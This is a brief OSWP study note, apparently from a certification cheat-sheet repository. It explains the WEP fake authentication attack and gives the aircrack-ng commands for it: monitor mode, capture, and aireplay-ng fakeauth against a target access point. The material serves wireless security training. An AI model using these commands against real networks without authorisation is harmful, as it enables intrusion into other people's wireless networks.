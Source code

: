 # OSWP - Fake Authentication Attack (WEP)

The fake authentication attack allows you to perform the two types of WEP authentication (Open System and Shared Key) plus associate with the access point (AP). This is only useful when you need an associated MAC address in various aireplay-ng attacks and there is currently no associated client. It should be noted that the fake authentication attack does NOT generate any ARP packets. Fake authentication cannot be used to authenticate/associate with WPA/WPA2 Access Points.

## Commands

* Run [setup](../../setup.md) first
* Two terminals needed here, so use `screen` or log in twice
     * Make sure terminal is full screen
* Make sure that there are no associated clients connected to target AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $DEVICE $CHANNEL

# Start monitoring
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Fake Authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=1860)